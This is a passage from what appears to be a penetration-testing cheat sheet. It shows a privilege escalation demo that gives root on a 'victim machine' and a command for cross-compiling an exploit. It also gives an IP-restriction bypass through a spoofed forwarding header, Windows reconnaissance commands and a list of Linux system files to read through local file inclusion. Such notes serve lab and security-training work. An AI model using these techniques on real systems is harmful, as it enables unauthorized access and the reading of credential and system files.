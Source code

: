 Now from inside a SSH session on the victim machine (in this example `192.168.42.32`):

```console
bash-4.2$ cd /srv/pelota
bash-4.2$ ./shell
bash-4.2# id
uid=0(root) gid=0(root) groups=0(root),1000(megumin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

## Good to know (either Windows and/or Linux)

### Arch cross compile exploit (and diff glibc version)

```console
gcc -m32 -Wall -Wl,--hash-style=both -o gimme.o gimme.c
```

### IP restriction at application level, bypass

Try to send a request modifying the HTTP header by adding:

```console
X-Forwarder-For: <ip allowed>
```

### Windows - check OS information

```console
systeminfo
ver
```

### Windows - check architecture

```console
wmic os get osarchitecture
echo %PROCESSOR_ARCHITECTURE%
```

### Powershell  running as 32 or 64 bits

```console
[Environment]::Is64BitProcess
```

### Linux LFI - intesresting files to look after

```console
/proc/self/status
/proc/self/environ
/etc/passwd
/etc/hosts
/etc/exports
```
